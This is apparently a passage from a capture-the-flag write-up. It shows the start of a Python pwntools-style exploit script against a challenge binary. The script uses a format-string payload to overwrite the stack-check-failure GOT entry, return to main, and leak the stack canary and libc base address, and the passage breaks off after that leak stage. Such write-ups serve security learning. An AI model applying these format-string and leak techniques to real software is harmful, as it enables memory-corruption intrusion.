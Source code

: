 - **Full exploit**

    ```python
    #!/usr/bin/python3
    from pwncus import *
    from time import sleep

    # context.log_level = 'debug'
    exe = context.binary = ELF('./og', checksec=False)
    libc = ELF('libc.so.6', checksec=False)

    def GDB(): gdb.attach(p, gdbscript='''

    b*go+131
    b*go+168
    b*go+190
    c
    ''') if not args.REMOTE else None

    if args.REMOTE:
        con = sys.argv[1:]
        p = remote(con[0], int(con[1]))
    else:
        p = process(argv=[exe.path], aslr=False)
    set_p(p)
    if args.GDB: GDB(); input()

    # ===========================================================
    #                          EXPLOIT
    # ===========================================================

    def exploit():

        # [1]: Leak libc & canary & ret2main
        ret_addr = (exe.sym.main) & 0xffff

        pl = f'%{ret_addr}c%10$hn'.encode()
        pl += f'%15$p%33$p'.encode()
        pl = pl.ljust(0x20, b'\0')
        pl += p64(exe.got.__stack_chk_fail)
        sla(b'name: ', pl)

        ru(b'0x')
        leak = int(ru(b'0x',drop=True), 16)
        canary = int(ru(b'A', drop=True), 16)
        libc.address = leak - 0x29d90
        info('Canary: ' + hex(canary))
        info('Libc leak: ' + hex(leak))
        info('Libc address: ' + hex(libc.address))
